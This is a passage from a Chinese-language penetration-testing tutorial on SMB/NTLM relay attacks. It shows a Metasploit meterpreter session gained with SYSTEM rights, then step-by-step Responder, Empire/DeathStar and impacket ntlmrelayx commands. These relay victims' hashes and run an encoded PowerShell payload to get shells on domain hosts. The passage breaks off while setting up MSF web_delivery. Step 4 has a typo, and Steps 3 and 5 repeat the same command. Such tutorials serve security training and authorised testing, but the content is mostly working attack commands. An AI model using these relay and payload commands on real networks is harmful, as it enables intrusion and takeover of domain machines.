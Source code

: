 然后直接getshell，还是system权限，因为调用了系统服务：

```
msf exploit(windows/smb/smb_relay) &gt; sessions 
Active sessions
===============
  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ X-90E984B4C76D4  192.168.188.136:4444 -&gt; 192.168.138.188:1034 (192.168.188.128)
```

###### Empire

我们也可以使用Empire来进行SMB中继攻击测试，具体步骤如下所示：<br/> Step 1：启动Empire并清除agent

```
./empire --rest --username username --password 123456
```

Step 2：启动Deathstar，ip为攻击机ip，为了接管agent

```
python3 DeathStar.py -lip 192.168.188.129 -t 100 -u username -p 123456
```

Step 3：在empire中生成powershell，此时你会发现多了一个名为DeathStar的listener，之后我们使用该listener来生成powershell代码：

```
ntlmrelayx.py -t 192.168.188.3 -c 'powershell -noP -sta -w 1 -enc [powershell code]'
```

Step 4：启动responder

```
Responder -I eht0 -r -d –v
```

Step 5：之后使用impacket中的ntlmrelayx执行以下命令，条命令是对中继成功的机器自动执行powershell并获取agent，powershell脚本放在引号中

```
ntlmrelayx.py -t 192.168.188.3 -c 'powershell -noP -sta -w 1 -enc [powershell code]'
```

Step 6：在域控上创建共享操作

```
net use \\al1ex
```

Step 7：之后可以看到对每台PC进行了转发测试，若成功则反弹shell，总体来说效果不是很好，耗时太长了，我也不想等了。。。

###### 自动化利用

在实战中我们可以使用Responder + impacket + MSF来实现获取Net-NTLM hash，并通过ntlm中继获得域内普通用户的msf shell，具体步骤如下：<br/> Step 1：开启Responder监听

```
responder -I eth0 -r -d -w
```

Step 2：启动MSF的exploit/multi/script/web_delivery模块
